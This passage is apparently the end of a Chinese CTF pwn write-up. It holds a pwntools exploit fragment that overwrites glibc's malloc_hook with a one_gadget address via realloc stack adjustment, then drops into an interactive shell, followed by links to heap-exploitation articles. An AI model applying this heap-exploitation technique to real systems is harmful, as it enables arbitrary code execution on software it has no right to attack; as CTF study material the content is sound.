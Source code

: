 ```python
payload = p64(malloc_hook-27-8)
edit(2,len(payload),payload)

create(0x68)
create(0x68)
# one = [0x45226,0x4527a,0xf0364,0xf1207]
one = [0x45216,0x4526a,0xf02a4,0xf1147]
onegadget = libc_base + one[1]
log.info("onegadget:"+hex(onegadget))
payload = 'a'*11 + p64(onegadget) + p64(realloc)
edit(5,len(payload),payload)

create(0x10)

# gdb.attach(p)
p.interactive()
```

## 参考文章

* [[原创]堆的六种利用手法](https://bbs.pediy.com/thread-246786.htm)
* [[pwn]堆：realloc_hook控制栈结构达成onegadget](https://blog.csdn.net/breeze_cat/article/details/103789081)
* [pwn学习系列之Extend the chunk及realloc_hook利用](https://xz.aliyun.com/t/6559)

